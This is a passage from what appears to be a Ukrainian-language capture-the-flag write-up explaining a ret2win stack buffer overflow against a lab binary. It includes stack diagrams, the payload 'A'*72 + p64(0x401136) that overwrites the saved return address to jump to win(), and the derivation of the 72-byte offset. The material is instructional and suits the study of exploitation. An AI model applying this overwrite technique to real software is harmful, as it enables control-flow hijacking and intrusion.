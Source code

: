 **У нашому випадку НЕ ПОТРІБЕН** бо:
- Адреса win() точно відома (PIE OFF)
- Не використовуємо shellcode

### Візуалізація процесу

**До переповнення:**
```
STACK (vuln()):
        ┌─────────────────┐  0x7fff...88
        │ 0x004011XX      │  ← saved RIP (повернення в main)
        ├─────────────────┤  0x7fff...80
        │ 0x7fff...       │  ← saved RBP
        ├─────────────────┤  0x7fff...40 ← RBP
        │ name[63] = ?    │
        │ ...             │
        │ name[0]  = ?    │
        └─────────────────┘  ← RSP
```

**Після відправки payload:**
```
PAYLOAD: 'A'*72 + p64(0x401136)

STACK (після read):
        ┌─────────────────┐
        │ 0x00401136      │  ← saved RIP (ПЕРЕЗАПИСАНО на win!)
        ├─────────────────┤
        │ 0x4141414141... │  ← saved RBP (ПЕРЕЗАПИСАНО на 'A'*8)
        ├─────────────────┤
        │ name[63] = 'A'  │
        │ ...             │
        │ name[0]  = 'A'  │
        └─────────────────┘
```

**Після return:**
```
CPU: ret
  1. pop rip         → rip = 0x00401136
  2. jmp 0x00401136  → Стрибаємо на win()

win() виконується:
  puts("FLAG{STAGE6_RET2WIN}")
  _exit(0)
```

### Чому offset = 72?

```
Стековий фрейм vuln():
┌────────────────────────────┐
│ Локальні змінні            │  Компілятор виділив місце
│ включно з name[64]         │  (може бути alignment padding)
├────────────────────────────┤
│ Saved RBP (8 байт)         │  Збережений base pointer
├────────────────────────────┤
│ Saved RIP (8 байт)         │  ← Наша ціль!
└────────────────────────────┘

Offset = відстань від початку name[] до saved RIP
       = 64 (name) + 8 (saved RBP)
       = 72 байти
```
